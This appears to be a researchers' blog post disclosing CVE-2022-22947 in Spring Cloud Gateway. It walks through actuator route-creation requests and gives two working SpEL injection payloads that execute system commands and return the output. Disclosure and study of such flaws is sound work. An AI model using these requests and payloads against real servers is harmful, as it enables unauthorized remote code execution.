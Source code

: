 ```yaml
---
layout: post
title:  "[CVE-2022-22947] Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2022: 
- 16/01/2022: We reported to VMware and being assigned for triage after that. 
- 16/02/2022: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](/assets/spring-gateway/duplicate.png)
- 01/03/2022: VMware release new version, duplicated guy also release the new blog about this.
![](/assets/spring-gateway/dup-date.png)
![](/assets/spring-gateway/my-date.png)

Seem that we reported later than him 1day. T.T

# I. Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# II. Detail Analysis:
## 1. Functional Design:
![](/assets/spring-gateway/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## 2. Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](/assets/spring-gateway/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
### 2.1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](/assets/spring-gateway/list-routes.png)

### 2.2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](/assets/spring-gateway/new-route.png)
### 2.3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](/assets/spring-gateway/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](/assets/spring-gateway/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## 3. Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](/assets/spring-gateway/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](/assets/spring-gateway/filter-definition.png) 
![filter](/assets/spring-gateway/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](/assets/spring-gateway/getvalue.png)
![filter](/assets/spring-gateway/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](/assets/spring-gateway/result1.png)
![filter](/assets/spring-gateway/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# III. Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# IV. Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.

